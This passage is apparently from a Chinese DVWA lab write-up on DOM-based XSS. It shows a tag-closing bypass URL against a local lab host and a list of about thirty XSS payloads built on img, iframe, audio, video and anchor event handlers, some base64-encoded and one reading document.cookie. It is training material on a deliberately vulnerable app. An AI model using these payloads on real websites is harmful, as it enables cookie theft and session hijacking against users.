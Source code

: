 ```
}

?>

```

```
判断如果有<script 直接跳转到English，可以通过使用非<script>标签注入 比如
<img src='x' onerror='alert(1)'/>
但是如果直接放进去就当做了option的值，可以先做一个闭合option结束select
比如之前是<option value=""></option>
注入
变成了（不用管注入后字符的成功还是失败）：
<option value=""</option></select><img src='x' onerror='alert(1)'/>"></option>
http://192.168.20.48/DVWA/vulnerabilities/xss_d/?default="></option></select><img src='x' onerror='alert(1)'/>
```
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/9fcd024b036a52e2d7655b49fc78c846.png)
可以注入的标签有很多，如下：

```
<script>alert('xss')</script>
<script>alert(/xss/)</script>
<script>alert(123)</script>
<a href="javascript:alert(1)">test</a>
<a href="x" onfocus="alert('xss');" autofocus="">xss</a>
<a href="x" onclick=eval("alert('xss');")>xss</a>
<a href="x" onmouseover="alert('xss');">xss</a>
<a href="x" onmouseout="alert('xss');">xss</a>
<img src=x onerror="alert(1)">
<img src=x onerror=eval("alert(1)")>
<img src=1 onmouseover="alert('xss');">
<img src=1 onmouseout="alert('xss');">
<img src=1 onclick="alert('xss');">
<iframe src="javascript:alert(1)">test</iframe>
<iframe onload="alert(document.cookie)"></iframe>
<iframe onload="alert('xss');"></iframe>
<iframe onload="base64,YWxlcnQoJ3hzcycpOw=="></iframe>
<iframe onmouseover="alert('xss');"></iframe>
<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">
<audio src=1 onerror=alert(1)>
<audio><source src="x" onerror="alert('xss');"></audio>
<audio controls onfocus=eval("alert('xss');") autofocus=""></audio>
<audio controls onmouseover="alert('xss');"><source src="x"></audio>
<video src=x onerror=alert(1)>
<video><source onerror="alert('xss');"></video>
<video controls onmouseover="alert('xss');"></video>
<video controls onfocus="alert('xss');" autofocus=""></video>
<video controls onclick="alert('xss');"></video>
```
#### Hign
看代码：
```
// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {

	# White list the allowable languages
	switch ($_GET['default']) {
		case "French":
		case "English":
		case "German":
		case "Spanish":
			# ok
			break;
```